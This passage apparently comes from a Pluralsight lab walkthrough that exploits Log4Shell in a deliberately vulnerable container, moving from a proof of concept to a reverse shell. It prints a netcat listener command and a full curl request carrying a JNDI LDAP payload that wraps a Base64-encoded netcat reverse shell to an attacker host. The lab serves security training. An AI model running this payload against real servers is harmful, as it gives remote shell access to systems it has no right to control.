 8.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
9.  Swap to the **Ubuntu Defender Endpoint**.
    
    `CTRL`, `ALT`, and `Shift`
    
10.  Check the vulnerable application's **/tmp/** directory:
    
    `sudo docker exec vulnapp2 ls /tmp`
    
![figure](https://pluralsight2.imgix.net/labs/assets/dbc1924c-de5c-4951-b06b-c92c729c1d78_vuln-tmp-pwned.png)﻿
    

POC is a success!! However, that wasn't much of an exploit... Before getting into analysis, let's see if we can upgrade the exploit in this next challenge and establish a reverse shell.

---
# Upgrade to a Reverse Shell

For this challenge you'll be following the same process with one minor modification. You need to setup a listener for the reverse shell connection and change the payload.

1.  Start by connecting to the **Ubuntu Attacker Endpoint.**
    
2.  Create a new terminal session for the netcat listener:
    
    `screen -S nc`
    
3.  Start netcat as a listener on port **7777**:
    
    `nc -lvp 7777`
    
    **Note:** Netcat (nc) is a networking utility used to establish connections. For now, you can leave that up and listening
    
    -   `-l` = listen mode
        
    -   `-v` = verbose
        
    -   `-p` = sets the port![figure](https://pluralsight2.imgix.net/labs/assets/22abbc8a-1a18-4ae3-aa64-9c76c814631c_nc-listening.png)﻿
        
4.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
5.  Time to send the upgraded payload!
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/bmMgLW52IDE3Mi4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'`
    
    **Note:** The Base64 encoded string translates to: `nc -nv 172.31.24.10 7777 /bin/sh`
    
    **Analysis:** The vulnerable application is running an extremely old version of netcat susceptible to sending a shell through the netcat connection. While this works for our test environment to understand the principles of what is taking place, it will most likely fail with a production application.
    
6.  Reattach to the netcat terminal session:
    